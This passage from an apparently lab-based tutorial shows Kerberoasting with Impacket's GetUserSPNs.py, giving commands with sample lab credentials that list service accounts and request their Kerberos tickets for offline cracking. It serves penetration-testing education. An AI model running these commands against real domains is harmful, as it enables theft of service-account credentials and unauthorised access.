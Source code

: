 [Impacket](https://github.com/fortra/impacket)  is anoter great remote tool for use we can use easily

We will use [GetUserSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) but highly reccommend to read code before run it.

We can verify with

```bash
GetUserSPNs.py 'lab.local/ldapuser:Password123!' 
```

![alt text](../assets/images/kerberos8.png)

and request with just add `-request` command

```bash
GetUserSPNs.py 'lab.local/ldapuser:Password123!' -request
```

![alt text](../assets/images/kerberos9.png)

nice!!!

### Kerberoasting Attack with netexec
